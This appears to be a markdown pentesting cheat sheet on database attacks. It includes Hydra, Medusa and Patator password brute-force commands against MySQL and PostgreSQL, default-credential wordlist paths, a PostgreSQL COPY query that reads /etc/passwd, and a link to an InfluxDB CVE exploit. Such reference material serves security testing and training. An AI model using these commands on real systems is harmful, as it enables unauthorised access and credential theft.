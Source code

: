 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173680960-5e82161d-0e0b-45a8-b35f-26be5539eeb2.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172729236-3578e657-e8a0-4cb8-be7a-0daecfbbd77b.svg#gh-light-mode-only">
</picture>

---

- [Dynamodb](#dynamodb)
- [Influx DB](#influx-db)
- [Mysql](#mysql)
- [Postgres](#postgres)
- [SQLite](#sqlite)

# Bruteforce
### Patator
```bash
patator pgsql_login user=user password=FILE1 0=/usr/share/wordlists/rockyou.txt  host=ip -x ignore:fgrep='failed'
```

### Medusa
```bash
medusa -h ip -u user -P pass.txt -M mysql -n 22
```

### Hydra
```bash
hydra -l user -P pass.txt ip mysql
```

# MySql
> Port: 3306

### Connect to mysql
```bash
mysql -h localhost -u myname -p
```

### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
```

### Select
```sql
SELECT * FROM table_name
```

# SQLite
### Open
```bash
sqlite3 database.sqlite3
```
or open in vs code

### Show info
```
.databases
.tables
```

# Postgres
> Port: 5432

### Wordlist Default Credentials
```path
/usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
/usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
```

### Connect
```bash
psql -h ip -U username -d database -W
```

### Show infos
```
\l # list all databases
\dt # list all tables
```

### Read File
```sql
create table hack(file TEXT);
COPY hack FROM '/etc/passwd';
select * from hack;
```

- [PostgreSQL Pentesting](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e)

# Influx DB

[CVE-2019-20933 Influxdb](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

```
> show databases # to display databases
> show field keys # field keys (like columns in sql)
> show measurements # to display measurements (like tables in sql)
{
  ...
  "results": [
    "values": [
        [
            <strong>"foo"</strong>
        ]
    ]
  ...
}
> select * from "foo" # display all content of measurments (table) 'foo' (keep the doubles quotes)
```

# Dynamodb

See [this page](../wiki/Cloud.md)